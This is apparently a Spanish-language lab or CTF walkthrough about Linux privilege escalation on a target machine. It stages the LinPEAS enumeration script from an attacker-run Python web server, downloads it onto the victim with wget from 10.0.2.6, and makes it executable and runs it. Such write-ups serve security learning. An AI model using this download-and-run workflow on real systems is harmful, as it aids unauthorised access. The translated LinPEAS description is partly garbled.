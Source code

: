 	sudo -l

![[Pasted image 20240405031203.png]]

En esta ocasión, al tener pocas opciones, necesitamos encontrar la manera de vulnerar la maquina, para ello ocuparemos una herramienta llamada **[linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240331-d41b024f)**. 

![[Pasted image 20240405032911.png]]

A nosotros nos interesa específicamente el archivo **linpeas.sh**, así que una vez lo descargamos, crearemos una carpeta en nuestro directorio con el comando **sudo** y lo movemos ahí.

![[Pasted image 20240405033436.png]]

Ahora, necesitamos cargar ese archivo a la maquina victima, para ello levantaremos un servidor en Python con el siguiente comando.

	sudo python3 -m http.server 80

![[Pasted image 20240405034322.png]]

Una vez levantado, nos vamos a la maquina victima, y nos dirigimos a la ruta **temp/** que es donde cargaremos el archivo linpeas.sh con la herramienta **[[Recursos#**wget**|wget]]**.

	wget 10.0.2.6/linpeas.sh

![[Pasted image 20240405034644.png]]

> [!NOTE] Nota
> Unicamente se coloca **/linpeas.sh** debido a que el servido de python se levanto en el mismo directorio, por lo tanto es el unico archivo que existe.

Ahora, una vez que hemos subido el archivo linpeas, debemos recordar que este aun no tiene ningún tipo de permiso de ejecución, por lo que hay que agregárselo. Para ello usaremos el siguiente comando.

	chmod 777 linpeas.sh

![[Pasted image 20240405034900.png]]

Y ejecutamos.

![[Pasted image 20240405034959.png]]

> [!NOTE] Linpeas
> **LinPEAS es un script que la búsqueda de posibles rutas para escalar privilegios en Linux/Unix*/MacOS los ejércitos.** Los controles se explican en el [libro.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

Lo que hace este archivo, es buscar vulnerabilidades con respecto a los directorios que nosotros podamos ejecutar.

![[Pasted image 20240405035532.png]]

Ahora, verificaremos al fin que hace el script **webbrowser.py**.
